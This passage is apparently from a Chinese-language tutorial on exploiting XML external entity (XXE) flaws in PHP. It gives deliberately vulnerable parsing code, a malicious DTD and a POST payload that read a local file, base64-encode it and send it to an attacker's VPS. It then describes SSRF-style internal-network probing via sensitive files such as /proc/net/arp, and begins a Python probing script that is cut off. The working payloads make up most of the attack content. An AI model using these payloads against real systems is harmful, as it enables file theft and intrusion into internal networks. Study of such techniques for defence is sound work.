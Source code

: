 ```php
<?php

libxml_disable_entity_loader (false);
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
?>
```

test.dtd

```xml-dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///D:/test.txt">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://ip:9999?p=%file;'>">   //vps ip
//&#37;就是%html实体编码结果
```

POST-payload

```
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://ip/test.dtd">        //服务器ip
%remote;%int;%send;
]>
```

调用过程

- %remote 先调用，调用后请求远程服务器上的 test.dtd ，有点类似于将 test.dtd 包含进来
- %int 调用 test.dtd 中的 %file, %file 就会去获取服务器上面的敏感文件，然后将 %file 的结果填入到 %send 以后(因为实体的值中不能有 %, 所以将其转成html实体编码 `%`)
- 我们再调用 %send; 把我们的读取到的数据发送到我们的远程 vps 上，这样就实现了外带数据的效果，完美的解决了 XXE 无回显的问题。

### 3.拓展

可以让服务器让另一台服务器发送请求，如果像内网服务器发送请求，可以实现SSRF的效果。

利用这种攻击模式可以使用很多的协议和漏洞攻击。

**2.3.1HTTP内网主机探测**

以存在 XXE 漏洞的服务器为我们探测内网的支点

- 要进行内网探测我们还需要做一些准备工作，我们需要先利用 file 协议读取我们作为支点服务器的网络配置文件，看一下有没有内网，以及网段大概是什么样子。
- 以linux为例，可以读取 /etc/network/interfaces 或者 /proc/net/arp 或者 /etc/host 文件以后我们就有了大致的探测方向了

探测脚本实例

```python
import requests
import base64

#Origtional XML that the server accepts
#<xml>
#    <stuff>user</stuff>
#</xml>


def build_xml(string):
    xml = """<?xml version="1.0" encoding="ISO-8859-1"?>"""
    xml = xml + "\r\n" + """<!DOCTYPE foo [ <!ELEMENT foo ANY >"""
    xml = xml + "\r\n" + """<!ENTITY xxe SYSTEM """ + '"' + string + '"' + """>]>"""
    xml = xml + "\r\n" + """<xml>"""
    xml = xml + "\r\n" + """    <stuff>&xxe;</stuff>"""
    xml = xml + "\r\n" + """</xml>"""
    send_xml(xml)

def send_xml(xml):
    headers = {'Content-Type': 'application/xml'}
```
